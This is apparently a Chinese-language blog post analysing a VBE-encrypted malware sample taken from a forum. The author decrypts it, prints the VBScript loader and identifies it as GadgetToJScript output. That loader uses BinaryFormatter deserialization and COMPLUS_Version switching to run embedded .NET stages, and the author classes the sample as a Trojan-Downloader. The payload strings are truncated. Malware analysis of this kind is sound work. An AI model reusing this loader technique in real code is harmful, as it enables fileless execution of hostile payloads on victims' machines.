





# VBE样本分析

逛论坛的时候发现了许多VBE的样本，闲来无事就拿过来一个进行痛苦的分析）

## 样本解密



由于使用的是VBE加密，所以需要用到[srcdec](https://gist.github.com/bcse/1834878)来进行解密嘞（感谢DI的赞助，所以不得不把分析环境切到虚拟机里）




吐槽下，由于编码问题需要指定codepage来进行解密。否则会出现乱码的情况

## 脚本结构

解密完成后大概可以看到脚本结构了

```vb
stage_1 = "AAEAAAD/////....."
stage_1_len = 2341
stage_2 = "AAEAAAD/////....."
stage_2_len = 198280
stage_3 = "AAEAAAD/////....."
stage_3_len = 197922
Function Base64ToStream(b,l)
  Dim enc, length, transform, ms
  Set enc = CreateObject("System.Text.ASCII"+"Encoding")
  length = enc.GetByteCount_2(b)
  Set transform = CreateObject("System.Security.Cryptography.FromBase64Transform")
  Set ms = CreateObject("System.IO.MemoryStream")
  ms.Write transform.TransformFinalBlock(enc.GetBytes_4(b), 0, length), 0, l
  ms.Position = 0
  Set Base64ToStream = ms
End Function
Dim shell
Set shell = CreateObject("WScript.Shell")
Dim ver
ver = "v4.0.30319"
On Error Resume Next
shell.RegRead "HKLM\SOFTWARE\\Microsoft\.NETFramework\v4.0.30319\"
If Err.Number <> 0 Then
  ver = "v2.0.50727"
  stage_1 = stage_3
  stage_1_len = stage_3_len
  Err.Clear
End If
shell.Environment("Process").Item("COMPLUS_Version") = ver
'shell.Popup "", 0, ver, 64
On Error Resume Next
Dim fmt_1
Set fmt_1 = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
fmt_1.Deserialize_2(Base64ToStream(stage_1, stage_1_len))
If Err.Number <> 0 Then
  Dim fmt_2
  Set fmt_2 = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
  fmt_2.Deserialize_2(Base64ToStream(stage_2, stage_2_len))
End If
```

看文件格式大概率是[GadgetToJScript](https://github.com/med0x2e/GadgetToJScript/tree/2.0)的杰作了，那这样子逆向起来应该不会很麻烦。

stage_1/2/3是base64加密的，丢010editor里解密一下就能扒出来点东西。转HEX后记得把MZ前的垃圾删掉




随后就可以丢进去看一眼文件头了）  很好C#写的 剩下的就交给dnSpy来解决了






所以这个脚本就是一个Trojan-Downloader( 后续行为还是得看那几个衍生物的

很有趣的事情是，他针对两个.net版本用了不同的payload。有空分析下这两个有什么区别吧）

## 后续

衍生物什么的挖个坑，日后再填吧。准备先把G2JS的内容写了。玩无文件攻击貌似会很有趣）
